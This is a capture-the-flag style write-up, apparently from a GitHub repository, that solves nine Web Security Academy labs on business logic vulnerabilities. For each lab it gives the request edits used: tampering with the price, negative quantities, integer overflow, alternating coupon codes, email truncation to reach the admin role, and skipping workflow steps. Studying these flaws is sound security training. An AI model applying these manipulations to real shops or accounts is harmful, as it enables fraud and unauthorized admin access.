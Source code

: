 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose cheep product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>


1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. if you add a larg number of `quantity` the ``price`` will happend ``integer overflow`` and it will count from negtive

```http
POST /cart HTTP/2
Host: 0a4f008503c158c382ac42ea00130067.web-security-academy.net
Cookie: session=F1AyWAioFLqVDYMZxyMuY0MDZzrYqBcj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net
Referer: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



productId=1&redir=PRODUCT&quantity=90
```

5. you need   ``2147483647 / 133700 = ~16061 `` jacked
6. you will send this request ``162`` time

```url
productId=1&redir=PRODUCT&quantity=99
```

![image](https://github.com/user-attachments/assets/aaf9f3d3-dd79-4038-9aec-f36de6ade157)

![image](https://github.com/user-attachments/assets/d7e834db-2b69-4c2b-b9a9-642b59ab67c3)

7. now try to buy cheep product more than one time until reach ``small positive`` price
8. now click ``place order``



  
</details>













<details>
  <summary>Lab: Inconsistent handling of exceptional input</summary>


* when ``rigester`` notice :

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

* rigester with any credintionals ``user : 123``
* if you try to navgate ``/admin``

  <img width="891" height="310" alt="image" src="https://github.com/user-attachments/assets/83a40260-124f-4337-ad9e-321ed8b07c98" />

```http
Admin interface only available if logged in as a DontWannaCry user 
```


- > now try to login with
  > ```
  > username: hack1
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string@exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

found the email cutted:

<img width="1247" height="312" alt="image" src="https://github.com/user-attachments/assets/5a6adc6b-c13c-45a0-960e-c5e91138487a" />


- > now try to login with
  > ```
  > username: hack2
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-stringAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@dontwannacry.com.exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

now the email end with ``@dontwannacry.com`` and ``admin panal`` tap appear

<img width="1349" height="365" alt="image" src="https://github.com/user-attachments/assets/18bee200-6ea4-4307-8f56-6bb90a39a8ad" />

<img width="1284" height="461" alt="image" src="https://github.com/user-attachments/assets/f7776dd8-d20f-4df4-96e8-63654fa402e2" />


  
</details>







<details>
  <summary>Lab: Weak isolation on dual-use endpoint</summary>


1. login as **`wiener`**
2. try to change it's password

```
csrf=xnA1Oakwv5UDQ52xSxV4UaMJhuemakJs&username=Wiener&current-password=peter&new-password-1=123&new-password-2=123
```
4. if you try to change username will refuse because the current password put if you delete the current password it will changed


```
csrf=xnA1Oakwv5UDQ52xSxV4UaMJhuemakJs&username=administrator&new-password-1=123&new-password-2=123
```


<img width="1459" height="835" alt="image" src="https://github.com/user-attachments/assets/e1d2a07b-3d0a-4e1e-a60d-4a14f7e7030c" />


<img width="1719" height="688" alt="image" src="https://github.com/user-attachments/assets/7bbf768c-c5f2-4b88-a324-3ad386b45c2d" />


  
</details>





<details>
  <summary>Lab: Insufficient workflow validation</summary>


1. login as `wiener`
2. try to buy something cheap
3. and do place order you will see this endpoint

```
/cart/order-confirmation?order-confirmed=true
```

4. now try to buy high cost item and 

**`change`**

```
/cart?err=INSUFFICIENT_FUNDS
```

**`with`**

```
/cart/order-confirmation?order-confirmed=true
```

<img width="1453" height="823" alt="image" src="https://github.com/user-attachments/assets/39212cc5-5e54-4c3e-bd21-91174444921e" />


  
</details>






<details>
  <summary>Lab: Authentication bypass via flawed state machine</summary>

1. login as `wiener`
2. select role 

<img width="1046" height="431" alt="image" src="https://github.com/user-attachments/assets/43fd0736-3ba8-4f26-bd8f-8d9261a61159" />

3. in request change it from 

```
role=user&csrf=oyT66U3RA5HmiTMXnv6NSH0kDbAtwDSs
```

`to`

```
role=administrator&csrf=oyT66U3RA5HmiTMXnv6NSH0kDbAtwDSs
```

> ### but not work so i loged out and try to login again but Drop the request of :

```
GET /role-selector
```

### and it work

<img width="1588" height="417" alt="image" src="https://github.com/user-attachments/assets/6bb88781-68ec-4b8f-bff9-1257b60a6f53" />


  
</details>




<details>
  <summary></summary>
</details>















